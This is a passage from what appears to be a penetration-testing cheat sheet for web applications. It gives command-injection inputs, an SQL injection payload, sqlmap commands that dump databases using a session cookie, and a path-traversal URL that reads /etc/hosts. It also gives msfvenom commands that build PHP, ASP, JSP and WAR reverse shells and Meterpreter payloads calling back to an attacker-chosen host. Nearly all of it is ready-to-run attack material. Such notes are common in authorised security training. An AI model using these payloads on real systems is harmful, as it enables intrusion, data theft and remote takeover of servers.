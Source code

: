 Inject commands to execute on the server:
- `127.0.0.1; uname -a` - Attempts command execution by appending a command
- `127.0.0.1 && uname -a` - Alternative syntax for command injection

## SQL Injection

Exploit SQL vulnerabilities manually or with tools.

```bash
# Basic SQL injection payload
' or 1=1 #

# Using sqlmap with cookie
sqlmap --url=<IP address> --cookie="PHPSESSID=nce5aar41js59p2ber5es3mr2l" --dbms=mysql --level=3 --risk=3

# Testing POST request
sqlmap --data="search=OSINT" --url=http://192.168.1.160/welcome.php --cookie="PHPSESSID=nce5aar41js59p2ber5es3mr2l" --dump

# Using Burp Suite Request
vi login.req  # Save the request to login.req
sqlmap -r login.req
```

## Local/Remote File Inclusion (LFI/RFI)

Exploit file inclusion vulnerabilities.

Example:
```
http://10.11.14.113/addguestbook.php?name=James&comment=Hello&LANG=../../../../../../../../../../etc/hosts
```

## Reverse Shell File Upload

Upload reverse shells for remote access.

```bash
# Download and modify PentestMonkey Shell
# From http://pentestmonkey.net/tools/web-shells/php-reverse-shell

# Create PHP reverse shell
msfvenom -p php/reverse_php LHOST=<IP address> LPORT=<Port> -f raw > shell.php

# Create PHP Meterpreter shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP address> LPORT=<Port> -f raw > shell.php

# Create ASP Meterpreter shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP address> LPORT=<Port> -f asp > shell.asp

# Create ASPX Meterpreter shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP address> LPORT=<Port> -f aspx > shell.aspx

# Create JSP reverse shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP address> LPORT=<Port> -f raw > shell.jsp

# Create WAR file with JSP shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP address> LPORT=<Port> -f war > shell.war
```
